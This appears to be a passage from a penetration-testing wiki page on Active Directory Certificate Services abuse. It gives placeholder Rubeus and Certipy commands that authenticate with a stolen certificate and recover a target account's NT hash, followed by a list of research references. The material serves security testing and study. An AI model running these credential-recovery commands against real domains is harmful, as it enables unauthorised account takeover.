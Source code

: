 The structure can be unciphered if a TGS-REQ U2U is realised.

#### Windows

```powershell
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

#### Linux

```bash
# Authenticate and recover the NT hash
certipy auth -pfx 'user.pfx' -no-save
```

## References <a href="#bkmrk-references" id="bkmrk-references"></a>

* [SpecterOps](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs)
* [Certipy](https://github.com/ly4k/Certipy)
* [Certipy2.0 blog](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)
* [Certipy4.0 blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
* [Certify](https://github.com/GhostPack/Certify)
* [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)
* [HTTP418 Infosec](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks)
* [Snovvcrash](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
* [Weak ACLs](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
